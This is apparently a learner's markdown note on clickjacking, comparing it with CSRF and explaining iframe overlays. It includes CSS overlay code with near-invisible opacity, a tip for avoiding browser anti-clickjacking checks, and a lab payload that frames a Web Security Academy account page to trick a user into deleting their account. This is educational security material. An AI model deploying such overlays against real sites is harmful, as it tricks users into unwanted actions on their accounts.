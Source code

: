 
Is a interface based attack, where user is `tricked` into clicking on a obfuscated prompt to perform a hidden and unwanted action.

This attack is somewhat similar to `CSRF` attack.
But the difference is that clickjacking requires the `user interaction` such as clicking on a hidden button, compared to forging a whole new request like in CSRF without any user interaction.

For example you receive and `email` saying you won 10 gazillion dollars.
You click the `link` and there is a button to claim your prize.
Hidden underneath that is a button that is from another web app to transfer your money to attackers account.

That button you just clicked is within an `iframe` which is overlaid on top of the button you are actually clicking.


`iframe` - inline frame is an html element that allows you to embed another document into the current HTML.

```html
<!DOCTYPE html>
<html>
<body>
<iframe src="https://www.w3schools.com" title="W3Schools Free Online Web Tutorials"></iframe>
</body>
</html>
```
In this example the iframe is a little window rendering what the URL as if you visited it normally.

As we learned in CSRF note, CSRF tokens are used to prevent forged requests from going thru via token or same origin headers and else.
In this case with clickjacking non of that matters because the request happening on the `actual domain`.
The request looks all like normal behavior except the part that process occurs within an `iframe`.


#### Basic clickjacking attack

Clickjacking utilizes `CSS` to create and manipulate layers.
The target website is incorporated into an iframe overlaid on top of a decoy website.

In other words we "steal" a button from a legit website, stick it into our decoy to trick the user into clicking it.
```html
<head> 
<style>
#target_website 
{ position:relative; width:128px; height:128px; opacity:0.00001; z-index:2; }

#decoy_website
{ position:absolute; width:300px; height:400px; z-index:1; }
</style>
</head> ...
<body>
<div id="decoy_website"> ...decoy web content here... </div> <iframe id="target_website" src="https://vulnerable-website.com"> </iframe>
</body>
```

As you can tell by the CSS settings.
The `relative and absolute position` are set to achieve proper overlap.
And `opacity` is set to basically invisible value of `0.00001` which if set to `0.0` could trigger browsers anti clickjacking protection, depending on browser and version.
Also `z-index`  is a and indicator of z axis, what should be on top, the higher the number the higher the item is on top.

**LAB** - craft some HTML that frames the account page and fools the user into deleting their account.

```html
<style>
    iframe {
        position:relative;
        width:200px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:495px;
        left:75px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a190054039c9af780470dd8002600bc.web-security-academy.net/my-account"></iframe>
```

So we have an iframe and a div.
They are stylized with CSS, iframe is positioned relatively and has got a z-index higher than div underneath it.
Div is placed with lower z-index value and is just a "fake button" that is positioned where the iframe button appears to be.